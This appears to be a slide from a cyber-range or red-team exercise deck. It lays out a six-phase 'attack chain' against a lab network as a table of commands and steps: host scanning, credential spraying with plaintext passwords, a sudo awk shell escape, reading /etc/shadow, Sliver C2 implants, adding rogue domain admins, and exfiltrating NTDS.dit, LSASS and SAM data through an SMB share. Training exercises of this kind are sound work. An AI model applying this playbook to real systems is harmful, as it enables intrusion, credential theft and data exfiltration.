

# CVISC Attack Chain
Day 1 (4hrs) - Phases 1-3 | Day 2 (4hrs) - Phases 4-6
| Phase 1: DMZ | Phase 2: 23.0 | Phase 3: 25.0 | Phase 4: 20.0 | Phase 5: Exfil DC01 |
| --- | --- | --- | --- | --- |
| fping -g 208.11.26.0/24 -als | fping -g 208.11.23.0/24 -a > alives.txt | fping -g 208.11.25.0/24 -a > alives.txt | Fping 20.0 + 21.0 | NTDS.dit, LSASS, and SAM data pooled and exfiled from DC01 |
| sudo nmap -A 208.11.26.100 -Pn | crackmapexec ssh alives.txt -u "ethan.reynolds" -p bubblewrap69 | crackmapexec ssh alives.txt -u cracked\_users.txt -p cracked\_passwords.txt | Nmap 20.0 + 21.0 | Evil-winrm -u Spatial.rend -p gotem .\winPEASexe Bloodhound collection |
| ftp anonymous@208.11.26.100 | ssh ethan.reynolds@IP | sudo -l | ssh onto system | sudo -l | Log4j exploit on DC01 | zip pooled data |
| Add evil admin | sudo awk 'BEGIN {system("/bin/sh")}' | upload and run pspy | Create evil domain admin | Impacket SMB server on kali X |
| dontforget.txt on C:\\Users\\Administrator\\Desktop | Sliver beacon implant on 23.201 | Tar2Root privesc | Add 20 reg keys | DC01 mount /evil\_share transfer |
| Setup chisel tunneling | cat /etc/shadow | “crack creds” 5 creds total | Sliver c2 beacon implant | Add evil domain admin Spatial.rend | Sliver C2 implant on DC02 |